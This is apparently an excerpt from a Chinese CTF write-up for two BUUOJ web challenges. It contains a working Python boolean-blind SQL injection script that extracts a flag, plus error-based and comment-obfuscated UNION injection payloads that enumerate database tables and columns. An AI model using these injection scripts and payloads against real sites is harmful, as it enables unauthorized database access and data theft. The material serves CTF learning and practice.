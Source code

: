 ## 0x18.[CISCN2019 华北赛区 Day2 Web1]Hack World

找个字典跑了一下，过滤了一些，有些没过滤。

布尔盲注：

用的网上的脚本：

```python
import requests
url = "http://07113360-9eb3-4e8d-8085-4284220b1372.node3.buuoj.cn/index.php"
res = ""
try:
    for i in range(1, 50):
        for j in range(22, 127):
            payload = "1^if((ascii(substr((select(flag)from(flag)),%d,1))=%d),0,1)" % (i, j)
            #或者：0^(ascii(substr((select(flag)from(flag)),%d,1))=%d)
            data = {"id": payload}
            r = requests.post(url, data)
            #print(payload)
            if "Hello, glzjin wants a girlfriend." in r.text:
                #res += (chr(j))
                print(i,chr(j))
                break
except:
    print("end ....")

print(res)
```

其中，异或的^可以起到or的作用

因为每次跑的时候会漏掉一些，所以将每个都输出，然后将缺少的在打印。



## 0x19.[网鼎杯 2018]Fakebook

robots.txt有源码泄露

可能与ssrf有关

登陆后有SQL注入，对空格有过滤，可以报错注入或者/**/代替空格：

```
?no=-1 or updatexml(1,concat('\~',database(),'\~'),1)#
数据库名：fakebook 

no=11/**/union/**/select/**/1,group_concat(table_name),3,4/**/from/**/information_schema.tables where table_schema='fakebook' #
表名：users

no=11/**/union/**/select/**/1,group_concat(column_name),3,4/**/from/**/information_schema.columns where table_schema='fakebook'and table_name='users' #
字段：no,username,passwd,data 

之后返回的是：
O:8:"UserInfo":3:{s:4:"name";s:6:"123123";s:3:"age";i:0;s:4:"blog";s:13:"www.baidu.com";} 
```
